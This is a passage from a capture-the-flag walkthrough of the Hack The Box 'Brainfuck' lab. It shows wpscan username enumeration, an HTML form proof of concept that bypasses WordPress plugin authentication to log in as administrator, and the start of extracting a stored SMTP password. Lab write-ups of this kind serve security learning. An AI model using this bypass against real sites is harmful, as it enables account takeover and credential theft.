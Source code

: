 According to the [documentation](https://www.exploit-db.com/exploits/41006), this vulnerability allows you to bypass authentication by logging in as anyone without knowing the password. You do however need a valid username for the attack to work. Therefore, let’s use wpscan to enumerate usernames.

```text
wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
```

* — enumerate u: enumerates usernames.

We get back the following result.

![](https://miro.medium.com/max/693/1*oFCbC1_fHjFvRZ4YJzv_uw.png)

Both “_admin_” and “_administrator_” are valid usernames. Now that we have a valid username, let’s attempt to exploit the vulnerability.

## Gaining an Initial Foothold <a id="eb5f"></a>

Copy the POC code from the [vulnerability entry on searchsploit](https://www.exploit-db.com/exploits/41006) and save it in the file priv-esc.html. Change the URL to the name of the machine.

```text
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Get the location of the exploit file on the attack machine.

```text
pwd
```

Run it in the browser and login as administrator.

![](https://miro.medium.com/max/718/1*lnJ63NNJB861XeZAE00F4A.png)

Refresh the brainfuck.htb page and we’re logged in as administrator!

![](https://miro.medium.com/max/1185/1*oubRE_dfw9h0fyaZSlHl9g.png)

There doesn’t seem to be much functionality available for this user. Therefore, let’s try the ‘admin’ user next. Perform the same exploit again except with the username being ‘admin’.

![](https://miro.medium.com/max/1160/1*WyKHJp2o-HJVy9g0EM1TCw.png)

On the top tab click on _Brainfuck Ltd._ &gt; _Themes_. Then click on _Plugins &gt; Settings_ on the _Easy WP SMTP_ plugin_._ There, we find the SMTP configuration settings with the SMTP username and SMTP masked password.

![](https://miro.medium.com/max/631/1*Wj4-jBDO92ewbYG3tpe2MQ.png)

Right click on the password field and view page source.
